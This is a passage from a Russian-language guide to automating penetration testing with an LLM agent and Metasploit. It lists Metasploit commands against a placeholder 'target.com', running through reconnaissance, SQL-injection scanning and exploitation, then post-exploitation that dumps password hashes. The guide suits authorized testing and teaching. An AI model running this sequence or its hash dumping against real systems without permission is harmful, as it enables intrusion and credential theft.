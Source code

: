4. **Принимать решения о следующих шагах**
   - Выбор следующей задачи
   - Адаптация стратегии на основе результатов
   - Переход к следующему этапу при необходимости

## Пример последовательности команд для веб-приложения

```
# Этап 1: Разведка
use auxiliary/gather/dns_enum
set DOMAIN target.com
run

use auxiliary/scanner/portscan/tcp
set RHOSTS target.com
set PORTS 1-1000
run

use auxiliary/scanner/http/http_version
set RHOSTS target.com
set RPORT 80
run

# Этап 2: Сканирование уязвимостей
use auxiliary/scanner/http/dir_scanner
set RHOSTS target.com
set RPORT 80
run

use auxiliary/scanner/http/sql_injection
set RHOSTS target.com
set RPORT 80
set PATH /login.php
run

# Этап 3: Анализ уязвимостей
# Анализ результатов предыдущих этапов

# Этап 4: Эксплуатация
search sql_injection
use exploit/multi/http/php_sql_injection
set RHOSTS target.com
set RPORT 80
set PATH /vulnerable_page.php
exploit

# Этап 5: Пост-эксплуатация
use post/multi/recon/local_exploit_suggester
set SESSION 1
run

use post/linux/gather/hashdump
set SESSION 1
run

# Этап 6: Отчетность
db_export /tmp/pentest_report.xml
```

Этот рабочий процесс обеспечивает структурированный подход к пентестингу, который может быть автоматизирован с помощью LLM агента и Metasploit Framework.
